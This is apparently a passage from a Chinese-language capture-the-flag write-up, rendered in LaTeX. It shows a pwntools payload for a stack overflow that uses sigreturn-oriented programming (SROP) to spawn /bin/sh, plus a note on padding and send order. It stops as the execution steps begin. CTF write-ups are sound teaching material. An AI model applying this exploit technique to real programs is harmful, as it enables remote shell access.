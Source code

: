 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload  }\OperatorTok{=} \StringTok{b"B"} \OperatorTok{*} \BaseNTok{0x80}            \CommentTok{\# 填滿緩衝區，剛好碰到返回位址}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(VULN\_READ)         }\CommentTok{\# 覆蓋返回位址 {-}\textgreater{} 回到 0x40104f}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(SYSCALL\_RET)       }\CommentTok{\# 這次 read 的 ret 會跳到 0x401069 (syscall; ret)}
\NormalTok{payload }\OperatorTok{+=} \BuiltInTok{bytes}\NormalTok{(frame)           }\CommentTok{\# 偽造的 sigframe}
\NormalTok{payload  }\OperatorTok{=}\NormalTok{ payload.ljust(SH\_OFF, }\StringTok{b"}\CharTok{\textbackslash{}x00}\StringTok{"}\NormalTok{)}
\NormalTok{payload }\OperatorTok{+=} \StringTok{b"/bin/sh}\CharTok{\textbackslash{}x00}\StringTok{"}         \CommentTok{\# 字串放在同一個 buffer 裡 (位址已知)}
\NormalTok{payload  }\OperatorTok{=}\NormalTok{ payload.ljust(}\BaseNTok{0x400}\NormalTok{, }\StringTok{b"}\CharTok{\textbackslash{}x00}\StringTok{"}\NormalTok{)}
\NormalTok{p.send(payload)}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※注意 \textbf{為什麼 \texttt{payload.\allowbreak{}ljust(0x400)} 不能省？}
\texttt{read()} 不像 \texttt{scanf} 會等到你按
Enter，它是「核心目前手上有多少就給你多少」。 \texttt{vuln} 的
\texttt{read(0,\allowbreak{}\ \allowbreak{}buf,\allowbreak{}\ \allowbreak{}0x400)} 最多吃 0x400 bytes： * 你送\textbf{超過}
0x400 → 多出來的會留在管線裡，被「下一次 \texttt{read}」先吃掉， 那次的
\texttt{rax} 就不是 15，SROP 直接失敗（而且除錯訊息是「莫名
SIGSEGV」）。 * 你送\textbf{不足} 0x400 → 這次 \texttt{read}
早退，\texttt{rax} 會是別的數字（不影響流程， 但後面「剛好 15
bytes」的那次一定要獨立送）。 所以本題的送法固定是：\textbf{先送完整
0x400 的第一段 payload，再單獨送剛好 15 bytes}。 兩者之間不需要
\texttt{recv}，因為核心會按順序交付。
\end{quote}

執行流程（第一輪）：

整題總共只有 \textbf{3 次 read、3 次 send}（第 1 次 send 是墊檔的 24
bytes， 第 2、3 次才是 payload 的兩段），順序如下（一定要照這個順序）：
\end{document}
